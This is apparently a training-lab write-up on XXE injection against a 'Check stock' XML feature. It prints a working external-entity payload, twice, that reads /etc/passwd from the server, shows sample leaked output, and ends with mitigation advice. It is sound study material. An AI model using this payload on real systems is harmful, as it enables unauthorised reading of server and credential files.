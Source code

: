 # Lab: Exploiting XXE using external entities to retrieve files

This lab contains a vulnerable “Check stock” feature that processes XML input. The goal is to exploit XXE (XML External Entity) injection to read sensitive server-side files, specifically `/etc/passwd`.

## Objective

Exploit the XML parser to retrieve and display the contents of the `/etc/passwd` file via XXE injection.

## Steps to Reproduce

1. Go to any product page and click on the "Check stock" button.
2. Intercept the POST request using Burp Suite.
3. Modify the XML data in the request body to include an external entity declaration:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>

4. Forward the request.
5. The response will show content from the /etc/passwd file, such as:
Invalid product ID: root:x:0:0:root:/root:/bin/bash

## Payload Used

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

Used inside the full request body:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>

## Key Takeaways

- XXE vulnerabilities allow attackers to read local files from the server, perform SSRF, or cause DoS.
- These attacks exploit insecure XML parsers that allow external entity resolution through DTDs.
- Always test features that handle XML input by intercepting and modifying the request.

## Mitigation

- Disable external entities and DTD processing in XML parsers.
- Use secure XML libraries:
  - Python: defusedxml
  - Java: Disable DTDs using XML parser configuration (e.g., DocumentBuilderFactory).
- Avoid accepting raw XML from untrusted sources.
- Validate and sanitize user input strictly.

